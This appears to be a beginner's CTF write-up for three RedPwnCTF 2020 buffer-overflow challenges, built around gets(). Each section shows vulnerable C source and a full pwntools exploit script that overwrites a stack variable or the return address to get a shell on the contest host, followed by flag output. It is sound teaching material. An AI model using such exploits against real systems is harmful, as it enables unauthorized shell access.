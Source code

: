 ```yaml
---
id: 0
title: "Writeup for RedPwnCTF 2020 coffer-overflow-0, 1, 2"
subtitle: "Beginner's Pwn"
date: "2020.06.26"
tags: "ctf, linux-bof"
---
```


# coffer-overflow 0

### Basics of the basics
So, how do we approach this question? We can take a look at the source provided (coffer-overflow-0.c):
```c
#include <stdio.h>
#include <string.h>

int main(void)
{
  long code = 0;
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);

  if(code != 0) {
    system("/bin/sh");
  }
}
```

It looks like a standard buffer overflow question where the vulnerability here is gets(), which does not specify the amount of bytes it should accept. Since the variable we're writing to, `char name[16]` has a allocated buffer size of 16, we just need to overflow past that to start overwriting the variables we want, which in this case is `code`.

This is our target line:
```c
if(code != 0) {
    system("/bin/sh");
  }
```

As long as we are able to overwrite `code`, it doesn't matter what we overwrite it with, it will redirect us to shell.
Since stack space is generally allocated in multiples of 16, and this function declares `16+8=24 < 32` bytes for the variables, we can assume 32 bytes would be allocated to the function. Hence we just need to overwrite into the last 8 bytes of the stack and we should overwrite `code`. The length of our exploit would be 32-8+1 = 25.

Here is the final exploit:
```python
#!/usr/bin/env python

from pwn import *
e = ELF("./coffer-overflow-0")
p = remote("2020.redpwnc.tf", 31199)

p.recvline()
p.recvline()
p.sendline("A"*25)
p.interactive()
```

This should redirect us to shell, and with a simple `ls` we can see an entry `flag.txt`, so we simply do `cat flag.txt` to obtain the flag:
```
$ ls
Makefile
bin
coffer-overflow-0
coffer-overflow-0.c
dev
flag.txt
lib
lib32
lib64
$ cat flag.txt
flag{b0ffer_0verf10w_3asy_as_123}
```

# coffer-overflow-1

### Slightly more advanced
We take a look at the source code:
```c
#include <stdio.h>
#include <string.h>

int main(void)
{
  long code = 0;
  char name[16];
	
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);

  if(code == 0xcafebabe) {
	system("/bin/sh");
  }
}
```

This time, we would need to not only overwrite `code`, but also overwrite it with value `0xcafebabe` in little endian.
We use the same approach as before, with a padding of 32-8 = 24 characters followed by `0xcafebabe` in little endian.

Here is the final exploit:
```python
#!/usr/bin/env python

from pwn import *

e = ELF("./coffer-overflow-1")
p = remote("2020.redpwnc.tf", 31255)

print(p.recvline())
print(p.recvline())
payload = b"A"*24
payload += p64(0xcafebabe)
p.sendline(payload)
p.interactive()
```

This should redirect us to shell:
```
$ ls
Makefile
bin
coffer-overflow-1
coffer-overflow-1.c
dev
flag.txt
lib
lib32
lib64
$ cat flag.txt
flag{th1s_0ne_wasnt_pure_gu3ssing_1_h0pe}
```

# coffer-overflow-2

### Ret 2 bin?
Similarly, we take a quick look at the source code:
```c
#include <stdio.h>
#include <string.h>

int main(void)
{
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);

}

void binFunction() {
  system("/bin/sh");
}
```

Ah, now we get to ROP. We simply need to ROP to binFunction() to execute it, which will redirect us to shell.

There are many ways to find the address of the function, we can use `objdump -d` to find the address of binFunction():
```
$ objdump -d coffer-overflow-2 | grep binFunction
00000000004006e6 <binFunction>:
```

Now we just need to overwrite the `rip` register with this value in little endian.
We take 16 random characters + 8 to overwrite the `rbp` register for a padding of 24.

Here is the final exploit:
```python
#!/usr/bin/env python

from pwn import *

e = ELF("./coffer-overflow-2")
p = remote("2020.redpwnc.tf", 31908)

print(p.recvline())
print(p.recvline())
payload = b"A"*24
payload += p64(0x4006e6)
p.sendline(payload)
p.interactive()
```

This redirects us to shell:
```
$ ls
Makefile
bin
coffer-overflow-2
coffer-overflow-2.c
dev
flag.txt
lib
lib32
lib64
$ cat flag.txt
flag{ret_to_b1n_m0re_l1k3_r3t_t0_w1n}
```

# Final words
Overall, these challenges were pretty easy and meant for beginner CTF players, but it was still good practice to get used to the most basic form buffer overflow.